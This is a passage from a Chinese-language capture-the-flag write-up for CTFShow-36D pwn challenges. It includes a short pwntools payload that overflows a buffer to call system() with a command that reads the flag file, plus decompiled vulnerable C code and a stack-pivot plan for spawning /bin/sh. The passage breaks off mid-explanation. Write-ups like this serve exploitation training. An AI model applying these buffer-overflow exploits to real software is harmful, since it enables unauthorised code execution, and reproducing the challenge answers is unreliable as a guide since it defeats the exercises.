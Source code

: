 #### 解法2

还有一种解法就是不用给的`sh`，直接去执行`base64<flag`

```python
offset = cyclic_find(0x6161616b)
payload = 'base64<flag && '.ljust(offset,'a')
payload += p64(0x400653) # call system
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/pwn0)



## PWN_MagicString (434pt)
- 题目描述：
  
    > none
- 题目附件：[PWN_MagicString](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/PWN_MagicString/PWN_MagicString)
- 考察点：栈迁移
- 难度：中等

### 程序分析

这题和签到那题差不多，就是没直接给`sh`这个字符串，给了`system`，因此也不需要泄漏libc，想办法弄出个`/bin/sh`就行，`main`函数如下，还是简单的栈溢出。

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+0h] [rbp-2A0h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  system("echo Throw away ida pro!!! I want a girlfriend!");
  gets(&v4, 0LL);
  return 0;
}
```

### 解题思路
#### 栈迁移

栈溢出可以覆盖`rbp`，然后用下面这段代码可以完成栈迁移，迁到`bss`段，同时再调用一次`gets`，把`"/bin/sh"`也读到`bss`段。

```nasm
.text:00000000004006C1    call    _gets
.text:00000000004006C6    mov     eax, 0
.text:00000000004006CB    leave
.text:00000000004006CC    retn
```
